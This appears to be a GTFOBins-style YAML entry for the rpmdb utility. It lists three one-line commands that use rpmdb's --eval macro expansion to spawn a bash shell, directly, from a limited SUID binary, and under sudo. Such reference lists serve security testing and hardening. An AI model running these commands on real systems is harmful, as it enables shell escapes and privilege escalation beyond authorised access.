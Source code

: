 ```yaml
---
functions:
  shell:
    - code: rpmdb --eval '%(bash 1>&2)'
  limited-suid:
    - code: ./rpmdb --eval '%(bash 1>&2)'
  sudo:
    - code: sudo rpmdb --eval '%(bash 1>&2)'
---
```

